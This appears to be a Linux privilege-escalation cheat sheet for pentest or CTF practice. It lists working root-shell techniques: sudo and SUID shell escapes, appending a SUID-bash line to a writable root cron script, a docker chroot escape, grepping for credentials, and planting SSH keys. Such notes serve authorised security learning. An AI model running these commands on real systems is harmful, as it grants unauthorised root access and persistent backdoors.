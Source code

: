 
# Primiarly focus....
Sudo entries that show NOPASSWD or specific commands you can run as root.

SUID entries pointing to non-standard binaries (e.g., custom scripts, uncommon tools).

Writable /etc or scripts executed by cron as root.

Any cleartext credentials or keys.
________________________________________________________________________________________________________________________________________________________________

# Look for

1. Sudo rights (sudo -l) — immediate and often easiest.

2. SUID binaries — a few binaries with SUID root can be exploited via GTFOBins or simple misuse.

3. Writable files owned by root — config, scripts, cron jobs you can modify.

4. Cron jobs that run as root and call writable scripts or binaries.

5. Credentials lying around (.ssh/authorized_keys, config files, backups).

6. Services running as root you can interact with (listening sockets, daemons).

7. Docker / containers / LXC / snap misconfigs (docker group membership often => root).

8. Capabilities / setcap — binaries with elevated capabilities that let you escalate.

9. Kernel exploits only after everything else — but check kernel version & known local exploits.

10. Polkit, systemd timers, NFS exports, world-writable root-owned dirs — medium difficulty but common.
________________________________________________________________________________________________________________________________________________________________

- sudo check : sudo -l 

-- shows a binary you can run as root:

-- If it’s a shellable program (/bin/bash, /usr/bin/vim, less, find, awk, perl, python), spawn a root shell:

                            $cmd: sudo <binary>  # e.g., sudo /usr/bin/vim -c ':!bash'
                             sudo /usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
________________________________________________________________________________________________________________________________________________________________

- Find SUID files : find / -perm -4000 -type f 2>/dev/null | less

-- First identify obvious ones: nmap, less, vim, perl, python with SUID often lead to root shells via known tricks.

                                    $cmd (file path..>) /usr/bin/nmap --interactive
                                    !sh
                                    /usr/local/bin/.suidshell
________________________________________________________________________________________________________________________________________________________________
- Find writable files/dirs owned by root : find / -writable -user root -type f 2>/dev/null | less        
                                                                           OR
                                          : find / -xdev -type d -perm -2 -ls 2>/dev/null  ( # world-writable dirs )

  -- If a cron job runs /usr/local/bin/backup.sh as root and that file is writable by you:

                                    $cmd:  ls -la /etc/cron* /etc/cron.d /var/spool/cron

                                                or

                    if script is writable: echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /path/to/writable/script
________________________________________________________________________________________________________________________________________________________________

- Check cron and systemd timers : ls -la /etc/cron* /var/spool/cron /etc/systemd/system/*.timer /etc/cron.d 2>/dev/null

                                   crontab -l 2>/dev/null || true

                                 systemctl list-timers --all 2>/dev/null
________________________________________________________________________________________________________________________________________________________________
 Check for credentials and ssh keys : grep -R "PASSWORD\|passwd\|credential\|secret" /home /etc 2>/dev/null || true

                                      ls -la /home/*/.ssh /root/.ssh 2>/dev/null
________________________________________________________________________________________________________________________________________________________________
- Services / sockets : ss -tunlp  # or netstat -tulpn

                              ps aux --sort=-%mem | head -n 30
________________________________________________________________________________________________________________________________________________________________
- Docker / containers : groups   # are you in docker?

                       docker ps -a 2>/dev/null || true

-- If you are in the docker group or /var/run/docker.sock is accessible:

                              $cmd: docker ps -a
        
                docker run -v /:/mnt --rm -it alpine chroot /mnt sh ## or use runc to spawn a root shell from container host (search exact payloads)
________________________________________________________________________________________________________________________________________________________________

- Capabilities : getcap -r / 2>/dev/null

- Kernel version & distro : uname -a

                            cat /etc/os-release

-- If kernel version is old and known exploits exist, note the specific version (uname -a) and search searchsploit for local privilege escalation exploits.
 Use kernel exploits only if other vectors fail and you understand the exploit. Example to search locally (on your machine): //

                  $cmd: searchsploit linux kernel 4.4.0
________________________________________________________________________________________________________________________________________________________________
- Files modified recently (helps find creds/backups) : find / -type f -mtime -7 -ls 2>/dev/null

-- If linpeas shows a config file with credentials (DB password, admin password), try them:

                  $cmd: su - username   # or ssh username@localhost -p <port> using the found credential
________________________________________________________________________________________________________________________________________________________________

- For SSH keys:

      mkdir -p ~/.ssh; echo "<key>" >> ~/.ssh/authorized_keys; chmod 600 ~/.ssh/authorized_keys

      ssh -i id_rsa root@localhost

* when output is too large (lilnpeas,winpeas and many many more...)  *
________________________________________________________________________________________________________________________________________________________________

# quick filter for high-value keywords
grep -Ei "suid|sudo|crontab|cron|passwd|shadow|ssh|sshpass|authorized_keys|key|password|secret|token|docker|capabilities|setcap|systemctl|timer|service|nmap|exploit" output.txt | less
    
